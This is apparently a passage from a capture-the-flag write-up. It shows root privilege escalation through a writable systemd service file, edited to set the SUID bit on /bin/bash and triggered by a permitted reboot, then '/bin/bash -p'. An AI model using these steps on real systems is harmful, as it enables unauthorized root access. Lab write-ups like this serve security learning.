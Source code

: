 Using information gathered from linpeas, the service `/etc/systemd/system/zeno-monitoring.service` is writeable
```
[Unit]
Description=Zeno monitoring

[Service]
RemainAfterExit=yes
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=default.target
```

Modified the script to run `ExecStart=/var/tmp/zeno-monitoring.py` to get a reverse shell but that didn't work. Tried other methods to execute a bash command to get a reverse shell but that didn't work either
```
[Unit]
Description=Zeno monitoring

[Service]
RemainAfterExit=yes
Type=simple
User=root
ExecStart=/usr/bin/chmod +s /bin/bash

[Install]
WantedBy=default.target
```

Logged in as user `edward` with gathered credentials, and ran `sudo -l`
- The user is allowed to run `sudo /usr/bin/reboot`
This should restart the service and set SUID bit on `/bin/bash` . Once restarted, logged in as `edward` again
```bash
/bin/bash -p
```